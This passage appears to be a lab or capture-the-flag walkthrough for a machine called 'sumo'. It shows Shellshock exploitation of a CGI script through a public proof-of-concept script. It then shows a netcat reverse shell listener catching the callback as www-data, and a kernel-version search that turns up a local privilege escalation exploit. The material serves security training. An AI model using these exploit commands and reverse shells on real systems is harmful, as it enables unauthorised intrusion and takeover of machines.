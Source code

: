 `nikto` let us know that the application might be vulnerable to the Shellshock vulnerability. Based on this [PoC](https://github.com/b4keSn4ke/CVE-2014-6271), we need to first search for `.sh` or `cgi` files under the `/cgi-bin` directory. However, `nikto` has already gave us this information: `test.sh` and `test.cgi`. So all we have to do is to open a listener and use the PoC.

{% code overflow="wrap" %}
```bash
$ ./shellshock.py 192.168.45.159 9999 http://sumo/cgi-bin/test.sh

<SNIP>
[+] Protocol detected: HTTP

[+] Setting Payload ...
[+] Sending Payload to http://sumo/cgi-bin/test.sh ...

[-] Request: timed out received HTTP code 500

[+] Reverse shell from 192.168.184.87 connected to [192.168.45.159:9999].

[+] Payload Sent successfully !
```
{% endcode %}

```bash
$ nc -nvlp 9999
listening on [any] 9999 ...
connect to [192.168.45.159] from (UNKNOWN) [192.168.184.87] 37896
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls
local.txt
test
test.sh
```

## Proof.txt

After [upgrading our shell](../../tools/shells/reverse-shells.md#upgrades) using `script`, we can see that this has only one user (`sumo`) and after searching around we can't find much. Checking the kernel version and exploits for it comes back with interesting information.

{% code overflow="wrap" %}
```bash
www-data@ubuntu:/usr/lib/cgi-bin$ ls /home
sumo
www-data@ubuntu:/etc/apache2$ uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```
{% endcode %}

```bash
$ searchsploit Linux ubuntu 3.2.0-23
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
<SNIP>
Linux Kernel 3.2.0-23/3.5.0-23 (Ubuntu 12.04/12.04.1/12.04.2 x64) - 'perf_swevent_init' Local Privilege Escalation (3)                                                         | linux_x86-64/local/33589.c
<SNIP>

```